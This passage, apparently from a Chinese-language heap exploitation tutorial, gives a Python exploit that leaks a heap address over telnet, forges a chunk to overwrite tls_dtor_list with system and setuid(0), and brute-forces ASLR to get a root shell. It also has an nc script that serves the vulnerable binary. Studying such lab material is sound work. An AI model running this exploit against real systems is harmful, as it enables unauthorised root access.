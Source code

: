 ``` python
fd_nextsize = (libc_base_addr - 0x1000) + 0x6c0
system = libc_base_addr + 0x3e6e0
system_arg = 0x80482ae
size = 0x200
setuid = libc_base_addr + 0xb9e30
setuid_arg = 0x0
while True:
 time.sleep(4)
 con = telnetlib.Telnet(ip, port)
 laddress = con.read_until('\n')
 laddress = laddress[8:12]
 heap_addr_tup = struct.unpack("<I", laddress)
 heap_addr = heap_addr_tup[0]
 print "** Leaked heap addresses : [0x%x] **" %(heap_addr)
 heap_base_addr = heap_addr - 0x10
 fd = heap_base_addr + 0x410
 bk = fd
 bk_nextsize = heap_base_addr + 0x618
 mp = heap_base_addr + 0x18
 nxt = heap_base_addr + 0x428
 print "** Constructing fake chunk to overwrite tls_dtor_list**"
 fake_chunk = conv(fd)
 fake_chunk += conv(bk)
 fake_chunk += conv(fd_nextsize)
 fake_chunk += conv(bk_nextsize)
 fake_chunk += conv(system)
 fake_chunk += conv(system_arg)
 fake_chunk += "A" * 484
 fake_chunk += conv(size)
 fake_chunk += conv(setuid)
 fake_chunk += conv(setuid_arg)
 fake_chunk += conv(mp)
 fake_chunk += conv(nxt)
 print "** Successful tls_dtor_list overwrite gives us shell!!**"
 send(fake_chunk)
 try: 
  con.interact()
 except: 
  exit(0)
```
使用暴力破解技术，我们需要尝试许多次来绕过随机化直至成功。我们可以让漏洞程序’vuln’作为网络服务器来运行，然后使用shell脚本保证当系统奔溃时能自动重启。  
``` sh
#vuln.sh
#!/bin/sh
nc_process_id=$(pidof nc)
while :
do
 if [[ -z $nc_process_id ]]; then
 echo "(Re)starting nc..."
 nc -l -p 1234 -c "./vuln sploitfun"
 else
 echo "nc is running..."
 fi
done
```
执行上述漏洞利用代码可以得到root shell! 太棒了!  
